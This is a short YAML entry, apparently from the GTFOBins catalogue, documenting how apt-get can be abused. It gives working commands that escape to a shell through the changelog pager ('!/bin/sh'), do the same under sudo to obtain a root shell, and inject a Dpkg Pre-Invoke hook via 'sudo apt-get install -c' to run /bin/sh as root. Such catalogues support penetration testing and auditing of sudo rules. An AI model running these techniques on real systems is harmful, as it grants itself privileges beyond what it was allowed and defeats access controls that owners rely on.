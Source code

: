 ```yaml
---
name: apt-get
functions:
  shell:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        apt-get changelog apt
        !/bin/sh
  sudo:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo apt-get changelog apt
        !/bin/sh
    - description: For this to work the target package (e.g., `sl`) must not be installed.
      code: sudo apt-get install -c <(echo 'Dpkg::Pre-Invoke {"/bin/sh;false"}') sl
---
```

